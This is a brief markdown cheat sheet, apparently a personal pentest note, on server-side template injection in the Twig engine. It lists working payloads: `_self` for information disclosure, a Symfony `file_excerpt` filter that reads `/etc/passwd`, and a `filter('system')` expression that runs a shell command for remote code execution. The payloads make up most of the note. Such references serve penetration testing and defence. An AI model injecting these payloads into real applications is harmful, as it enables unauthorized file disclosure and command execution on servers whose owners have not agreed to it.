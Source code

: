 ```yaml
---
title: d-Twig
draft: false
tags:
  - ssti
  - twig
---
```

## Information Disclosure

In Twig, we can use the `_self` keyword to obtain a little information about the current template:

```twig
{{ _self }}
```

## LFI

PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters. One of these filters is [file_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to read local files:

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

## RCE

To achieve remote code execution, we can use a PHP built-in function such as `system`.

```twig
{{ ['id'] | filter('system') }}
```